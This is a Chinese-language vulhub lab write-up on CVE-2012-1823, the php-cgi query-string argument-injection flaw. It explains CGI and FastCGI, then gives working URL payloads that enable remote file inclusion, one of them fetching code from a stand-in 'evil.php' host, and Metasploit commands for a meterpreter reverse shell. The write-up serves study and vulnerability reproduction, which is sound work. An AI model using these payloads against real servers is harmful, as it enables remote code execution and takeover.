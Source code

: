 # [vulhub]：CVE-2012-1823 php-cgi远程代码执行

时间：2020-2-6

Author：badbird

---

***该漏洞只出现在以cgi模式运行的php中。影响范围  < 5.3.12  < 5.4.2***

<center><h3>0x01 预备知识</h3></center>

​		**什么是CGI？**

​		Common Gateway Interface 即“通用网关接口”。用于处理浏览器（客户端）向服务器发送的数据，在服务器上部署。CGI实际上是一种数据处理的协议，相当于Web服务器“背后的女人”。

​		**CGI做了什么工作？**

​		[大佬理解](https://zhuanlan.zhihu.com/p/25013398)

​		浏览器用户提交的表单数据发送到服务器后，CGI从环境变量和标准输入获取数据进行处理（比如写入数据库），然后再向标准输出发送数据，由于Web服务已经做了重定向，将标准输出重定向给Web服务器与浏览器连接的socket，所以在浏览器就可以看到用户刚刚提交的数据的处理结果了。

​		浏览器用户提交数据(POST)-->服务器上的CGI程序从标准输入获取数据-->CGI程序处理数据-->返回响应到Web服务器-->Web服务器向客户端发送html响应

​		浏览器用户提交数据(GET)-->服务器上的CGI程序从环境变量获取数据-->CGI程序处理数据-->返回响应到Web服务器-->Web服务器向客户端发送html响应

​		基本框架已经明了了，*Web服务器与客户端浏览器进行http通信传输数据，CGI程序作为Web服务器的被调用程序用于数据的处理。*而CGI的作用就是*从环境变量和标准输入中读取数据、进行处理，然后向标准输出输出数据*

​		**什么是FastCGI**

​		由于CGI的工作流程是一个进程处理一个请求，处理完毕就退出，这样如果服务器网站访问量很大，过多的进程会消耗系统资源，且每次启动进程都需要初始化一下（读取配置），很慢，使服务显得性能低下。FastCGI应运而生。它被激活后会一直执行着，一个***FastCGI进程管理器***启动多个CGI解释器进程，等待处理多个请求。处理结束后子进程不退出

<center><h3>0x02 PHP的运行模式</h3></center>

​		**PHP-CGI**：是PHP自带的FastCGI管理器

​		**PHP中的SAPI（Server API）**：是应用层服务器程序比如apache等和PHP交互数据的入口，相当于PHP的消息“传递者”

​		php-cgi就是一个sapi，它提供了两种运行方式：cgi和fastcgi

<center><h3>0x03 漏洞成因</h3></center>

​		用户请求的查询字符串（query string）会被作为php-cgi的参数，导致一系列结果。

​		[RFC3875](https://www.ietf.org/rfc/rfc3875)中指出：

![image-20210206182203432](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210206182203432.png)

​		即如果querystring中不包含未解码的”=“时，应将querystring作为words（这里应该理解为具有执行意义的参数）也就是cgi的参数传入。Apache按要求实现了这个功能，但php显然没有做好。php对于传参的处理是在Web上下文不允许传入参数，仅仅是普通的命令行的那种传参方式比如：

​											 #!/usr/local/bin/php-cgi -d include_path=/path

但显然RFC中规定的querystring也有机会被当作参数传入cgi。

<center><h3>0x03 漏洞利用</h3></center>

​		已经得知querystring可以作为cgi的参数，那么利用这个漏洞首先要知道的就是cgi有哪些有用参数：

- -c 指定php.ini文件的位置

- -n 不要加载php.ini文件

- -d 指定配置项

- -b 启动fastcgi进程

- -s 显示文件源码

- -T 执行指定次该文件

- -h 和 -? 显示帮助

  ​	最简单直接的利用方式莫过于使用 -s 查看源码了：

![image-20210206185746964](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210206185746964.png)

这里有个误区，细心的人会发现数据包是有GET标识的，所以以为是采用了get方式构造querystring，其实不然，回过去看看RFC文档：

![image-20210206190837328](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210206190837328.png)

更重要的一点，参数**仅在URL中**才会被传递给cgi程序。

![image-20210206190713818](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210206190713818.png)

高级一点的利用方式：通过-d指定auto_prepend_file来制造任意文件包含漏洞。

需要注意的是，同时，我们应该将**allow_url_include设置为on**

而且，如果想指定执行自己的php文件，那么还会用到**php://input来以POST方式传递**php代码，或者也可以包含自己服务器的文件

更重要的是，记住前提条件，”*url中的querystring*“和”*未解码的=号*“

![image-20210206200713293](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210206200713293.png)

原始payload：%3d为”=“的URL编码; %3a为”:“的URL编码

```
?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
?-d+allow_url_include%3don+-d+auto_prepend_file%3dhttp%3a//www.example.com/evil.php
```

### 使用Metasploit反弹shell

（现在因为使用bp测试太多，阿里云服务器把我IP BAN掉了应该。。这个就不实操了）

```
search php_cgi
use exploit/multi/http/php_cgi_arg_injection
set rhosts 目标ip
set rport 8080
set payload php/meterpreter/reverse_tcp
set lhost 攻击ip
```

<center><h3>0x04 总结</h3></center>

​		2012年的漏洞，想当年还在初中，刚刚拥有第一台家用PC。

​		CGI现在基本都灭绝了，这个漏洞也仅仅当作一种”纪念“，来作为我的Web安全之路复现学习的第一个漏洞。

​		其实还是有很多东西值得体味的，越古老的东西越接近底层，通过学习了解这些古老的东西也能加深一些对Web服务通信流程的理解，而且，这种古老的东西和现在学校里教的知识很匹配:dog: 更容易产生知识联想，还是挺不错的体验。

​		从0到此整整一下午的时间，收获肯定是有的：懂了CGI；知道了RFC的重要性（从本漏洞看来，读RFC文档完全可以成为挖漏洞的一种思路）；知其然，一定要知其所以然效果才更好。



参考：

http://www.360doc.com/content/18/0327/17/51484742_740649523.shtml

https://zhuanlan.zhihu.com/p/25013398

https://www.ietf.org/rfc/rfc3875

https://jaminzhang.github.io/web/CGI-FastCGI-PHP-CGI-PHP-FPM-Concepts-Understanding/

https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html

https://www.freebuf.com/vuls/678.html